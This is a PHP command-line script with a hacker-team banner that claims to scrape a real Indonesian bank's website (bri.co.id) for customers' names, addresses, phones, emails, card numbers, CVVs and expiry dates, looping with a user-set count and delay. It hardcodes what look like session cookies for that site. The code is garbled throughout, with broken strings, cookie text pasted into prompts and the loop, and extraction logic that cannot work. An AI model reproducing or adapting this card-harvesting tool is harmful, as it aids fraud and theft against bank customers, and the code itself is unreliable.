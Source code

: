 # briiiiiiii
smsbking
<?php

/*Color*/
$green = "\033[92m";
$red = "\033[91m";
$cyan = "\033[36m";
$yellow = "\033[93m";
$bold = "\033[5m";
$white = "\033[0m";
/*Form*/
$date   = date('d-M-Y H:i');
//system("clear");
echo $red . "
___ ____ _____    ____              _
|_ _/ ___|_   _|  / ___|__ _ _ __ __| |
 | | |     | |   | |   / _` | '__/ _` |
 | | |___  | |   | |__| (_| | | | (_| 
|___\____| |_|    \____\__,_|_|  \__,_|

";
echo $blue . "==================================";
echo $bold . $green . "\nCoder   : php.Script Code
Team    : PasirGintungBukanEmpangTeam
Code    : PHP
Version : 8.9.8.0
Note: 
Yang Kaya Wajib berbagi dengan yang Miskin..!! \n";
echo $bold . $green . "DMYH    : $date\n";
echo $blue . "==================================\n";
echo $bold . $red . "Count      : "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.4) Gecko/20100101 Firefox/4.0";
$count = trim(fgets(STDIN,1024));
echo $bold . $white . "Delay      : "JSESSIONID=7F0B30A976393B4492F2F99097904977.liferay2; COOKIE_SUPPORT=true; BIGipServerpool_bri.co.id_new=963121836.47873.0000; _ga=GA1.3.1584158838.1583437584; _gid=GA1.3.1524813014.1583437584; _fbp=fb.2.1583438050041.927397328; GUEST_LANGUAGE_ID=en_US; TS01ae856c=011434184636bc646b7c5db213ad141b9f1cf2ebe2d9b7c1ea7f2e8b3f957ae294d7b8d365756574095485575646b097fa00e6516f427dda00e3e9103268f85d4fdc187edb5040c1867e1b76fd0a2437caecf83eb90c43640aeffe16ea00575bb81c2144f3; LFR_SESSION_STATE_20105=1583438507723
";
$sleep = trim(fgets(STDIN,1024));
for($x = 0; $x < $count; $x++){BIGipServerpool_bri.co.id_new=963121836.47873.0000";
$str = file_get_contents("http://bri.co.id/Credit-Card)";
$var = '/<div class="col2">credit-card<\/div>/s';
preg_match_all($var, $str, $matches);"_gid=GA1.3.1524813014.1583437584";
echo $red . "\n $$$$$$$$$$$$$$$ MORE INFORMATION $$$$$$$$$$$$$$$\n";
echo $bold . $cyan . "[name : ".str_replace("</span>", "", str_replace('<span class="name">', "", $matches[1][3]))."]".
		" [address : ".$matches[1][8]."]".
		" [phone : ".$matches[1][9]."]\n";
echo $red . "\n $$$$$$$$$$$$$$$ CARD INFORMATION $$$$$$$$$$$$$$$\n";
echo $bold . $Yellow . "[email : ".$matches[1][10]."]".
		" [card number : ".str_replace(" ", "", $matches[1][14])."]".
		" [cvv : ".$matches[1][16]."]".
		" [exp-date : ".$matches[1][15]."]\n";
	sleep($sleep)"GUEST_LANGUAGE_ID=en_US; LFR_SESSION_STATE_20105=1583438507723; TS01ae856c=01143418466188b22881c1dbdcfc531568bd44dc94439fc3ca8ceef26b8687bda56e69d4b240f89580d5c35ec761ed184c6f56237d5974192955b9025b2c4def920a2aa017e26e4c384b5c98a68622c24fdd6b57c0cbfdb56bf5352314b6d629d9cc431a76";
}
?>
